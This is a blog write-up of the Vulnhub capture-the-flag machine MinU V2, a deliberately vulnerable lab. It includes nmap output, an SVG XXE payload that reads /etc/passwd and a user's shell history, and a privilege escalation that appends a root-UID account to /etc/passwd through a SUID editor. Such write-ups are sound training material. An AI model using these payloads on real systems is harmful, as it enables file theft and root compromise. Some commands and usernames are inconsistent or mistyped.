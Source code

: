 ```yaml
---  
layout:    post 
title:      "Vulnhub - MinU V2"
date:       2019-07-26
author:     "D4mianwayne"
tag:      nmap, ctf, vulnhub
category: Vulnhub
---
```


Writeup of MinU V2 from Vulnhub.

# Nmap

Scanning the netwrk reveals we have only two ports open **3306** which is default port for my MySQL and **22** which is default port for SSH. But with the version scanning and `-A` argument we see that nmap has a "?" symbol on the ned of mysql which means that it is not sure that the service running on port **3306** is MySQL or nor. But the further scan reveals it has a HTML page.

```
robin@oracle:~$ nmap -sV -sC -A -p- -T5 192.168.43.172 

Starting Nmap 7.60 ( https://nmap.org ) at 2019-07-26 11:51 IST
Nmap scan report for minuv2 (192.168.43.172)
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 82:33:25:61:27:97:ea:4a:49:f5:76:a3:33:1c:ae:2b (RSA)
|   256 ed:ca:f6:b9:b5:39:32:89:d0:a3:36:94:82:04:4a:e8 (ECDSA)
|_  256 26:79:15:2e:be:93:02:41:04:c9:ea:e8:05:16:d1:83 (EdDSA)
3306/tcp open  mysql?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain
|     Transfer-Encoding: chunked
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     X-Powered-By: Kemal
|     Content-Type: text/html
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <style type="text/css">
|     body { text-align:center;font-family:helvetica,arial;font-size:22px;
|     color:#888;margin:20px}
|     max-width: 579px; width: 100%; }
|     {margin:0 auto;width:500px;text-align:left}
|     </style>
|     </head>
|     <body>
|     <h2>Kemal doesn't know this way.</h2>
|_    <svg id="svg" version="1.1" width="400" height="400" viewBox="0 0 400 400" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" ><g id="svgg"><path id="path0" d="M262.800 99.200 L 262.800 150.400 265.461 150.400 L 268.121 150.400 267.864 144.300 C 267.722 140.945,267.510 120.110,267.391 98.000 C 267.273 75.890,267.074 55.595,266.948 52.900 L 266.719 48.000 264.760 48.000 L 262.800 48.000 262.800 99.200 M160.800 290.800 C 160.800 291.301,161.224 291.301,162.000
|_mysql-info: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.60%I=7%D=7/26%Time=5D3A9C06%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,6D,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain\r\nTransfer-Encoding:\x20chunked\r\n\r\n10\r\n400\x20Bad\x20R
SF:equest\n\r\n0\r\n\r\n")%r(GetRequest,642C,"HTTP/1\.0\x20404\x20Not\x20F
SF:ound\r\nX-Powered-By:\x20Kemal\r\nContent-Type:\x20text/html\r\n\r\n\x2
SF:0\x20<!DOCTYPE\x20html>\n\x20\x20<html>\n\x20\x20<head>\n\x20\x20\x20\x
SF:20<style\x20type=\"text/css\">\n\x20\x20\x20\x20body\x20{\x20text-align
SF::center;font-family:helvetica,arial;font-size:22px;\n\x20\x20\x20\x20\x
SF:20\x20color:#888;margin:20px}\n\x20\x20\x20\x20img\x20{\x20max-width:\x
SF:20579px;\x20width:\x20100%;\x20}\n\x20\x20\x20\x20#c\x20{margin:0\x20au
SF:to;width:500px;text-align:left}\n\x20\x20\x20\x20</style>\n\x20\x20</he
SF:ad>\n\x20\x20<body>\n\x20\x20\x20\x20<h2>Kemal\x20doesn't\x20know\x20th
SF:is\x20way\.</h2>\n\x20\x20\x20\x20<svg\x20id=\"svg\"\x20version=\"1\.1\
SF:"\x20width=\"400\"\x20height=\"400\"\x20viewBox=\"0\x200\x20400\x20400\
SF:"\x20xmlns=\"http://www\.w3\.org/2000/svg\"\x20xmlns:xlink=\"http://www
SF:\.w3\.org/1999/xlink\"\x20><g\x20id=\"svgg\"><path\x20id=\"path0\"\x20d
SF:=\"M262\.800\x2099\.200\x20L\x20262\.800\x20150\.400\x20265\.461\x20150
SF:\.400\x20L\x20268\.121\x20150\.400\x20267\.864\x20144\.300\x20C\x20267\
SF:.722\x20140\.945,267\.510\x20120\.110,267\.391\x2098\.000\x20C\x20267\.
SF:273\x2075\.890,267\.074\x2055\.595,266\.948\x2052\.900\x20L\x20266\.719
SF:\x2048\.000\x20264\.760\x2048\.000\x20L\x20262\.800\x2048\.000\x20262\.
SF:800\x2099\.200\x20M160\.800\x20290\.800\x20C\x20160\.800\x20291\.301,16
SF:1\.224\x20291\.301,162\.000")%r(HTTPOptions,642C,"HTTP/1\.0\x20404\x20N
SF:ot\x20Found\r\nX-Powered-By:\x20Kemal\r\nContent-Type:\x20text/html\r\n
SF:\r\n\x20\x20<!DOCTYPE\x20html>\n\x20\x20<html>\n\x20\x20<head>\n\x20\x2
SF:0\x20\x20<style\x20type=\"text/css\">\n\x20\x20\x20\x20body\x20{\x20tex
SF:t-align:center;font-family:helvetica,arial;font-size:22px;\n\x20\x20\x2
SF:0\x20\x20\x20color:#888;margin:20px}\n\x20\x20\x20\x20img\x20{\x20max-w
SF:idth:\x20579px;\x20width:\x20100%;\x20}\n\x20\x20\x20\x20#c\x20{margin:
SF:0\x20auto;width:500px;text-align:left}\n\x20\x20\x20\x20</style>\n\x20\
SF:x20</head>\n\x20\x20<body>\n\x20\x20\x20\x20<h2>Kemal\x20doesn't\x20kno
SF:w\x20this\x20way\.</h2>\n\x20\x20\x20\x20<svg\x20id=\"svg\"\x20version=
SF:\"1\.1\"\x20width=\"400\"\x20height=\"400\"\x20viewBox=\"0\x200\x20400\
SF:x20400\"\x20xmlns=\"http://www\.w3\.org/2000/svg\"\x20xmlns:xlink=\"htt
SF:p://www\.w3\.org/1999/xlink\"\x20><g\x20id=\"svgg\"><path\x20id=\"path0
SF:\"\x20d=\"M262\.800\x2099\.200\x20L\x20262\.800\x20150\.400\x20265\.461
SF:\x20150\.400\x20L\x20268\.121\x20150\.400\x20267\.864\x20144\.300\x20C\
SF:x20267\.722\x20140\.945,267\.510\x20120\.110,267\.391\x2098\.000\x20C\x
SF:20267\.273\x2075\.890,267\.074\x2055\.595,266\.948\x2052\.900\x20L\x202
SF:66\.719\x2048\.000\x20264\.760\x2048\.000\x20L\x20262\.800\x2048\.000\x
SF:20262\.800\x2099\.200\x20M160\.800\x20290\.800\x20C\x20160\.800\x20291\
SF:.301,161\.224\x20291\.301,162\.000");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94

```


# HTTP Enumeration and SVG XXE LFI

Checking the webpage at `http://192.168.43.172:3306` it has a webpage as analyzed by nmap. But nothing much was there, running gobuster wuth defined file extensions like html, php, xml gives us a `upload.html which turns out to be a upload service but only for SVGs.

![](/img/minu2/gobuster.png)

At first, I thought we have to upload the reverse shell by faking up the header of file but searching through the internet gives us a article [SVG LFI](https://quanyang.github.io/x-ctf-finals-2016-john-slick-web-25/) which wasa CTF challenge back in 2016. So crafting our payload:-

```

<?xml version="1.0"?>
<!DOCTYPE svg [
<!ENTITY output SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
<xxe>&output;</xxe>
</svg>

```

![](/img/minu2/etcpass.png)

This will land us to another page saying **Upload OK** and checking the source of the page gives the content of `/etc/passwd` file. Analyzing it for a bit we get to see a entry of user `employer` who has a `/bin/ash` as it's shell. Trying to chck for multiple things like mail, logs etc. I thought of checking `.bash_history` for a second but it was a dead end. Then I tried to open `.ash_history` which has following contents:-

```
<?xml version="1.0"?>
<!DOCTYPE svg [
<!ENTITY output SYSTEM "file:////home/employee/.ash_history">
]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
<xxe>useradd -D bossdonttrackme -p superultrapass3


exit
</xxe>
</svg>
Upload OK

``` 

Hence, we got a password for user `employer`.

# SSH Login and Root Flag

Using above password, we logged in the minu2 machine via SSH as `employer`. So, starting off with basic enumeration I tried `sudo -l` but got a error. So, I tried `find / -perm -u=s -type f 2>/dev/null` which shows we can use **micro** and **bissuid**. This was time consuming since we have nothing more than a CLI editor and none of the files having any relevant informations. So, I thought that we can access the `/etc/passwd` so I tried to edit with micro with `cat /etc/passwd | micro`. Going to the bottom we add a user since we can use su which can be use to elevate users. 
Using `openssl -passwd -1 -salt new 123` gives us a hash of password so editing the file by adding this line at end `robin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:root:/bin/ash`. But here we gwt another problem because there is no file like `/bin/ash` so to try again I chnaged it to `robin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:root:/bin/ashh` which succesfully gives root shell.

![](/img/minu2/root.png)
